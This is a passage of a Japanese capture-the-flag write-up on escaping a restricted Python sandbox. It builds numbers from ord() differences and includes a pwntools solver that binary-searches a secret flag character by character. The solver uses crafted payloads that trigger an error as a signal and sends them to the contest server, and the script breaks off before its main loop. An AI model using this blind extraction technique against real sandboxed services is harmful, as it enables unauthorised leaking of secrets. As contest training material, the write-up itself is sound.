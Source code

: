 直接数値は使えませんが、`ord`関数を使うことで回避可能でした。  
`True`や`False`は`e`が制限されているため、使えませんでした。

```py
>>> ord('k')-ord('a')
10
>>> ord('b')-ord('a')
1
>>> ord('a')-ord('a')
0
```

```py
# 例：ord(_[0])==97 and chr('a')
a=ord('b')-ord('a');b=ord('k')-ord('a');c=b*b;d=a-a;ord(_[d])==b+b+b+b+b+b+b+b+b+a+a+a+a+a+a+a+d and chr('a')
```

後は、Censorshipのスクリプトにmake_n関数を追加して数値と置き換えることで解けました。  
文字列を短くするために、よく使いそうな数値をBASEにまとめています。

- solver.py

```py:solver.py
#!/usr/local/bin/python
from pwn import *

# KEYS = list(" .:,~^)(=-_&@#!'\"$%?}{abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWZ")
io = remote("amt.rs", 31670)
io.recvuntil(b"Give code: ")

def is_left(n: int, min: int, mid: int) -> bool:
  payload = f"{min}<=ord(_[{n}]) and ord(_[{n}])<{mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_right(n: int, mid: int, max: int) -> bool:
  payload = f"{mid}<ord(_[{n}]) and ord(_[{n}])<={max} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_mid(n: int, mid: int) -> bool:
  payload = f"ord(_[{n}])=={mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def b_search(n: int, min: int, max: int) -> int:
  left = min
  right = max
  while left <= right:
      mid = (left + right) // 2
      if is_left(n, min, mid):
          right = mid - 1
          continue
      if is_right(n, mid, max):
          left = mid + 1
          continue
      if is_mid(n, mid):
         return mid
      return -1
  return -1

flag = ""
```